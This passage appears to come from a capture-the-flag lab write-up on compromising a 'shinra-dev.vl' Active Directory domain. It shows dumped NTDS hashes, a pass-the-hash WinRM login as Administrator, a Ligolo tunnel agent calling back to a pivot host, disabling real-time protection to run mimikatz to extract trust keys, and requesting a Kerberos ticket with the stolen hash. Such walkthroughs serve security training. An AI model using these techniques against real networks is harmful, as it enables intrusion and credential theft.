SMB         dc.shinra-dev.vl 445    DC               CLIENT01$:1103:aad3b435b51404eeaad3b435b51404ee:1368d953a8ca55e37288bedfd1ff206d:::
SMB         dc.shinra-dev.vl 445    DC               CLIENT03$:1104:aad3b435b51404eeaad3b435b51404ee:c0dd656d3b9c25d4dd989228143001c4:::
SMB         dc.shinra-dev.vl 445    DC               CLIENT04$:1105:aad3b435b51404eeaad3b435b51404ee:060b849f9a84140ad88264cb0f1a34a3:::
SMB         dc.shinra-dev.vl 445    DC               FILE01$:1106:aad3b435b51404eeaad3b435b51404ee:37bf73dcb8f7bf7eebe858e7f261ccb8:::
SMB         dc.shinra-dev.vl 445    DC               PROV$:1140:aad3b435b51404eeaad3b435b51404ee:902ab07bb31144abe85f447ed9e65c8e:::
SMB         dc.shinra-dev.vl 445    DC               REGISTRY$:1141:aad3b435b51404eeaad3b435b51404ee:347eb167037d69c89154b6b78ad6908a:::
SMB         dc.shinra-dev.vl 445    DC               CLIENT02$:1142:aad3b435b51404eeaad3b435b51404ee:6457395ca00ab766a1fe6a546fe93279:::
SMB         dc.shinra-dev.vl 445    DC               mFileSvc$:1144:aad3b435b51404eeaad3b435b51404ee:3f1df227d55c8d40c3997bc7e72eb491:::
SMB         dc.shinra-dev.vl 445    DC               YOVECIO$:11601:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
SMB         dc.shinra-dev.vl 445    DC               [+] Dumped 44 NTDS hashes to /home/user/.nxc/logs/ntds/dc.shinra-dev.vl_None_2026-03-25_155803.ntds of which 34 were added to the database
SMB         dc.shinra-dev.vl 445    DC               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         dc.shinra-dev.vl 445    DC               [*] cat /home/user/.nxc/logs/ntds/dc.shinra-dev.vl_None_2026-03-25_155803.ntds | grep -iv disabled | cut -d ':' -f1
SMB         dc.shinra-dev.vl 445    DC               [*] grep -iv disabled /home/user/.nxc/logs/ntds/dc.shinra-dev.vl_None_2026-03-25_155803.ntds | cut -d ':' -f1
```

And now I can grab another flag:

```
└─$ evil-winrm-py -i dc.shinra-dev.vl -u Administrator -H 245e9c4bb260cddc3ba0d0293febaaef
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to 'dc.shinra-dev.vl:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> cd ..
evil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
SHINRA{8d055cd700e2f9dd7c12a2da1569e275}
evil-winrm-py PS C:\Users\Administrator\Desktop>
```

# Pivoting

As guessed I need to setup another tunnel as now the new machine is on the .12 subnet.

```bash
evil-winrm-py PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Internal-2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.12.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Internal-1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.11.101
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.11.20

Tunnel adapter isatap.{7F34A87E-0282-4EB8-A034-01483C5D7FEE}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter isatap.{5878C077-8456-48C2-BF52-BE4498268E68}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
evil-winrm-py PS C:\Users\Administrator\Documents>

```

Now I will setup a new tunnel:

```bash
evil-winrm-py PS C:\temp> Start-Job -name Ligolo { C:\temp\agent.exe -connect 172.16.11.20:11601 -ignore-cert }

Id     Name            PSJobTypeName   State         HasMoreData     Location             Command                  
--     ----            -------------   -----         -----------     --------             -------                  
1      Ligolo          BackgroundJob   Running       True            localhost             C:\temp\agent.exe -co...


evil-winrm-py PS C:\temp>


```

And so far only 2 new hosts(not counting in the 101 which is the current server):

```bash
└─$ fping -asqg 172.16.12.0/24
172.16.12.25
172.16.12.101
172.16.12.100

     254 targets
       3 alive
     251 unreachable
       0 unknown addresses

    1004 timeouts (waiting for response)
    1007 ICMP Echos sent
      16 ICMP Echo Replies received
       0 other ICMP received

 48.7 ms (min round trip time)
 86.1 ms (avg round trip time)
 110 ms (max round trip time)
        9.754 sec (elapsed real time)

```

But here I see a third machine?

```bash
└─$ netexec winrm 172.16.12.0/24
WINRM       172.16.12.81    5985   SQL02            [*] Windows 10 / Server 2019 Build 17763 (name:SQL02) (domain:shinra-lab.vl) 
WINRM       172.16.12.101   5985   DC               [*] Windows 10 / Server 2016 Build 14393 (name:DC) (domain:shinra-dev.vl) 
WINRM       172.16.12.100   5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:shinra.vl) 
WINRM       172.16.12.80    5985   SQL01            [*] Windows 10 / Server 2019 Build 17763 (name:SQL01) (domain:shinra.vl) 
```

Plus I see only a oneway trust?

```bash
evil-winrm-py PS C:\temp> Get-ADTrust -Filter *


Direction               : Outbound
DisallowTransivity      : True
DistinguishedName       : CN=shinra.vl,CN=System,DC=shinra-dev,DC=vl
ForestTransitive        : False
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : shinra.vl
ObjectClass             : trustedDomain
ObjectGUID              : 54a58c37-f7a0-4816-a2ab-4fd184ec3620
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=shinra-dev,DC=vl
Target                  : shinra.vl
TGTDelegation           : False
TrustAttributes         : 1
TrustedPolicy           : 
TrustingPolicy          : 
TrustType               : MIT
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False

```

But powerview shows a totally different picture:

```bash
─LDAPS─[dc.shinra-dev.vl]─[SHINRA-DEV\Administrator]-[NS:<auto>]
╰─ ❯ Get-DomainTrust
objectClass                   : top
                                leaf
                                trustedDomain
whenCreated                   : 21/12/2022 20:28:00 (3 years, 3 months ago)
whenChanged                   : 21/12/2022 20:28:00 (3 years, 3 months ago)
name                          : shinra.vl
objectGUID                    : {54a58c37-f7a0-4816-a2ab-4fd184ec3620}
trustDirection                : OUTBOUND
                                BIDIRECTIONAL
trustPartner                  : shinra.vl
trustType                     : WINDOWS_NON_ACTIVE_DIRECTORY
                                WINDOWS_ACTIVE_DIRECTORY
                                MIT
                                AZURE_ACTIVE_DIRECTORY
trustAttributes               : NON_TRANSITIVE
flatName                      : shinra.vl


```

Now here I had to tamper the realtime protection so I can execute mimikatz and dump the trusted keys from the DC:

```bash
PS C:\Temp> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege
ERROR mimikatz_doLocal ; "privilege" command of "standard" module not found !

Module :        standard
Full name :     Standard module
Description :   Basic commands (does not require module name)

            exit  -  Quit mimikatz
             cls  -  Clear screen (doesn't work with redirections, like PsExec)
          answer  -  Answer to the Ultimate Question of Life, the Universe, and Everything
          coffee  -  Please, make me a coffee!
           sleep  -  Sleep an amount of milliseconds
             log  -  Log mimikatz input/output to file
          base64  -  Switch file input/output base64
         version  -  Display some version informations
              cd  -  Change or display current directory
       localtime  -  Displays system local date and time (OJ command)
        hostname  -  Displays system local hostname

mimikatz # lsadump::trust /patch

Current domain: SHINRA-DEV.VL (SHINRA-DEV / S-1-5-21-102928273-333185529-3642627421)

Domain: SHINRA.VL (shinra.vlERROR kull_m_string_displaySID ; ConvertSidToStringSid (0x00000057)
)
 [  In ] SHINRA-DEV.VL -> SHINRA.VL

 [ Out ] SHINRA.VL -> SHINRA-DEV.VL
    * 12/21/2022 8:28:00 PM - CLEAR   - 54 00 72 00 75 00 73 00 74 00 4d 00 65 00 49 00 66 00 5a 00 6f 00 75 00 43 00 61 00 6e 00 34 00 32 00
        * aes256_hmac       075e08f0e35edc5a0a1e9e8b623799b46a3a9cd53be46c046b1168f39305bb0a
        * aes128_hmac       3c8405770c6c7be4975a5b43149210f2
        * rc4_hmac_nt       32302da7aa34caafdc2e247cc01c4690

 [ In-1] SHINRA-DEV.VL -> SHINRA.VL

 [Out-1] SHINRA.VL -> SHINRA-DEV.VL
    * 12/21/2022 8:28:00 PM - CLEAR   - 54 00 72 00 75 00 73 00 74 00 4d 00 65 00 49 00 66 00 5a 00 6f 00 75 00 43 00 61 00 6e 00 34 00 32 00
        * aes256_hmac       075e08f0e35edc5a0a1e9e8b623799b46a3a9cd53be46c046b1168f39305bb0a
        * aes128_hmac       3c8405770c6c7be4975a5b43149210f2
        * rc4_hmac_nt       32302da7aa34caafdc2e247cc01c4690


mimikatz #


```

And now I have my first creds:

```bash
└─$ impacket-getTGT -hashes :32302da7aa34caafdc2e247cc01c4690 shinra.vl/shinra-dev$
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in shinra-dev$.ccache
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ export KRB5CCNAME=/home/user/Downloads/Shinra/shinra-dev\$.ccache                                     
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ klist
Ticket cache: FILE:/home/user/Downloads/Shinra/shinra-dev$.ccache
Default principal: shinra-dev$@SHINRA.VL

Valid starting       Expires              Service principal
03/26/2026 10:45:33  03/26/2026 20:45:33  krbtgt/SHINRA.VL@SHINRA.VL
    renew until 03/27/2026 10:45:32

```

&nbsp;